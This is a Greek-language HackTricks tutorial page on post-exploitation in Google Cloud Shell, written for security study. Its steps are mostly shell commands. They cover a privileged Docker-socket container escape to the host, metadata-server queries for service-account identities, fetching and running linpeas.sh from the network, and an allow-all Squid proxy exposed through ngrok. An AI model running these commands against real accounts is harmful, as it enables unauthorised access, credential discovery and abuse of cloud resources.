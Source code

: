 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες σχετικά με το Cloud Shell ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Σημειώστε ότι το Google Cloud Shell εκτελείται μέσα σε ένα κοντέινερ, μπορείτε **εύκολα να διαφύγετε στον κεντρικό υπολογιστή** κάνοντας: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Αυτό δεν θεωρείται ευπάθεια από την Google, αλλά σας δίνει μια ευρύτερη εικόνα του τι συμβαίνει σε αυτό το περιβάλλον.

Επιπλέον, παρατηρήστε ότι από τον κεντρικό υπολογιστή μπορείτε να βρείτε ένα διακριτικό λογαριασμού υπηρεσίας:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Με τους ακόλουθους τομείς:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Καταγράψτε τα μεταδεδομένα με το LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Μετά τη χρήση του [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) με το token του Service Account **δεν ανακαλύφθηκε καμία άδεια**...

### Χρησιμοποιήστε το ως Proxy

Αν θέλετε να χρησιμοποιήσετε την instance του google cloud shell σας ως proxy, πρέπει να εκτελέσετε τις παρακάτω εντολές (ή να τις εισάγετε στο αρχείο .bashrc):
```bash
sudo apt install -y squid
```
Απλώς για να σας ενημερώσω, το Squid είναι ένας διακομιστής http proxy. Δημιουργήστε ένα **squid.conf** αρχείο με τις παρακάτω ρυθμίσεις:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
αντιγράψτε το **squid.conf** αρχείο στο **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Τέλος, εκτελέστε την υπηρεσία squid:
```bash
sudo service squid start
```
Χρησιμοποιήστε το ngrok για να κάνετε τον proxy διαθέσιμο από έξω:
```bash
./ngrok tcp 3128
```
Μετά την εκτέλεση, αντιγράψτε το tcp:// url. Εάν θέλετε να εκτελέσετε τον proxy από έναν περιηγητή, προτείνεται να αφαιρέσετε το tcp:// μέρος και την θύρα και να βάλετε την θύρα στο πεδίο θύρας των ρυθμίσεων proxy του περιηγητή σας (το squid είναι ένας http proxy server).

Για καλύτερη χρήση κατά την εκκίνηση, το αρχείο .bashrc θα πρέπει να έχει τις εξής γραμμές:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Οι οδηγίες αντιγράφηκαν από [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Ελέγξτε αυτή τη σελίδα για άλλες τρελές ιδέες για να τρέξετε οποιοδήποτε είδος λογισμικού (βάσεις δεδομένων και ακόμη και Windows) στο Cloud Shell.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
